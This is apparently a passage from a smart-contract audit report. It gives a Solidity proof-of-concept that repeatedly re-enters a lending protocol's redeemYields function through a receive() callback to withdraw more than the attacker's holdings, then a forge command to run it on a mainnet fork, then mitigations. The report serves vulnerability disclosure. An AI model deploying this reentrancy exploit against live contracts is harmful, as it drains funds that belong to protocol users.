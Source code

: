 ```solidity
    }

    function attack() public payable {
        if (counter < 10) {
            if (counter == 1) {
                // just to show that balance in the end is greater
                withdrawedInTheFirstCall = address(this).balance;
            }
            counter += 1;
            accumulator += abond.balanceOf(address(this));
            borrowing.redeemYields(address(this), uint128(abond.balanceOf(address(this))));
        } else {
            // checking that the attacker withdrawed more than the allowed by his funds
            if (withdrawedInTheFirstCall >= address(this).balance) {
                revert();
            }
            // here before returning, the attacker should buy the needed ABOND with the withdrawed ETH and USDa amount
            exchange.buyAbond{value: 1e6}(address(this), accumulator); // eth sent is to "buy"

            if (accumulator > abond.balanceOf(address(this))) {
                revert("Not enough ABOND to BURN");
            }

            return;
        }
    }

    receive() external payable {
        attack();
    }
}

contract ExchangeAbond {
    ABONDToken abond;

    constructor(address _abond) {
        abond = ABONDToken(_abond);
    }

    function buyAbond(address to, uint256 amount) public payable {
        abond.transfer(to, amount);
    }
}
```

To run the test:
```bash
forge test --fork-url https://mainnet.mode.network/ --mt test_PoC_ReentrancyInRedeemYields -vvv
```

### Mitigation

- Use the built-in `transfer` function to send ETH because it limits the gas it sends.
- Add `nonReentrant` modifiers to functions that modify the state.